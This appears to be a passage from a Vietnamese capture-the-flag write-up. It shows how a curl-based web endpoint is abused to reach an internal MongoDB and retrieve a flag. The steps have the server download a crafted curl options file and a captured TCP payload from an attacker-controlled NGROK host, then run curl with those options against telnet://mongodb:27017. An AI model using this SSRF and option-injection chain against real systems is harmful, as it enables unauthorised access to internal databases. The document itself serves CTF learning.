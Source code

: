 ![alt text](assets/wannagame/9.png)

Ta có thể tải nội dung TCP payload về, đây chính là quá trình mà server giao tiếp với database

Thử dùng file này để giao tiếp xem có được không

![alt text](assets/wannagame/10.png)

Nó có trả về flag vậy có nghĩa là chúng ta có thể dùng cách này

Vậy cuối cùng đây là cách làm

- Tải file options với nội dung bên dưới `url=http://NGROKSERVER.com/options.txt&opt=-o&data=GET`

```
--max-time 1
--upload-file "POST"
--url "telnet://mongodb:27017"
-o "GET"
```

- Tiếp theo tải file data tcp mà ta bắt được vào server `url=http://NGROKSERVER.com/test.data.dat&opt=-o&data=POST`

- Sau đó request đến một trang web bất kỳ với option là file GET(options mà ta lúc nãy gửi) `url=http://ABCXYZ.COM&opt=-K&data=GET` ( lúc này là lúc mà chúng ta giao tiếp với database để lấy flag và lưu vào GET)

